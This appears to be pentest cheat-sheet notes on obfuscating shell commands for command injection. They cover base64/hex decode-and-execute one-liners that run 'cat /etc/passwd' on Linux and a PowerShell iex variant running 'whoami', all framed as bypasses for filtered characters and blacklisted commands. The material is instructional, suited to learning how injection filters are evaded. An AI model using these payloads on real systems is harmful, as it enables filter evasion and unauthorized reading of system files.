

Encoded Commands (Linux Windows)
Linux
To encode a command we need :
1. first encode the command on the local attacker machine
2. decode it on the victim machine on runtime
1. Encode the payload that we want to execute
To encode a command we can use:
◇ base64 (for b64 encoding)
echo -n 'cat /etc/passwd' | base64
◇ xxd (for hex encoding)
echo -n 'cat /etc/passwd' | xxd -p
2. Create a command that will decode the encoded string in a sub-shell ($()), and then pass it to bash to be executed
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dk)
To decode the command since some commands could be blacklisted we can try also
◇ instead of bash for code execution
▪ sh
sh<<<$(openssl enc -base64 -d<<<Y2F0IC9ldGMvcGFzc3dk)
◇ instead of base64 for b64 decoding
▪ openssl
sh<<<$(openssl enc -base64 -d<<<Y2F0IC9ldGMvcGFzc3dk)

◇ xxd for hex decoding
sh<<<$(echo '636174202f6574632f706173737764' | xxd -p -r)
Note: we are using <<< to avoid using a pipe |, which is a filtered character.
Windows
1. To base64 encode our string
◇ Powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
◇ Bash
We can do also the same thing in Bash but we need to convert the string from utf-8 to utf-16 before we base64 it
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
2. Decode the b64 string and execute it with a PowerShell sub-shell (ies "$()")
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"